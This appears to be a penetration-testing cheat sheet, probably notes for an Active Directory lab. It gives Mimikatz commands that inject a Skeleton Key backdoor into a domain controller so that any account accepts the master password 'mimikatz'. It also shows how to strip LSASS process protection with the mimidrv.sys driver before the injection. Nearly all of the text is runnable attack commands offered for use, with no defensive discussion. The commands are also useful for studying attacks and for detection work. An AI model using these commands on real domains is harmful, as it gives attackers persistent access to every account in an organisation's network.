 # Skeleton Key

### Invoke-Mimikatz

#### Use the below command to inject a skeleton-Key

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

```
Skeleton Key password is : **mimikatz**
```

#### Now we can access any machine with valid username and password as mimikatz

```
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```

#### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
